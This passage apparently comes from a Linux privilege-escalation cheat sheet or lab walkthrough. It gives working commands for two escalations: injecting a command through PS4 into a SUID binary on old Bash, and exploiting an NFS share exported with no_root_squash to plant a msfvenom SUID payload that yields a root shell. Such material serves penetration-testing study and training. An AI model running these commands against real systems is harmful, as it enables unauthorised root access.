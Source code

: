 In Bash versions `4.4` and above, the PS4 environment variable is not inherited by shells running as root.

Find files with the SETUID bit set and use `strace` to check if any of those files are inheriting a user's PATH environment variable.
```bash
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep exec
```

Check the Bash version.
```bash
/bin/bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
```

Run `/usr/local/bin/suid-env2` with bash debugging enabled and the PS4 environment variable set to an embedded command of our choice to execute arbitrary commands.
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Run `/tmp/rootbash -p` to spawn a root shell.
```bash
-rwsr-sr-x 1 root root 926536 Sep 24 06:21 rootbash
/tmp/rootbash -p
```

## NFS Root Squashing
If `no_root_squash` is enabled in a writable NFS share, a remote user can create files on that NFS share as the local root user.

Check the NFS share configuration.
```bash
cat /etc/exports

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Create a mount point on the attacker machine and mount the exported NFS share.
```bash
#display exported shares
showmount -e [target ip]

mkdir /tmp/nfs
mount -o rw,vers=2 [target ip]:/tmp /tmp/nfs
```

Generate a payload using `msfvenom` that calls `/bin/bash` and save it to the mounted share. Make the file executable and set the SUID bit.
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```

Run `/tmp/shell.elf` to spawn a root shell.
```bash
/tmp/shell.elf
```
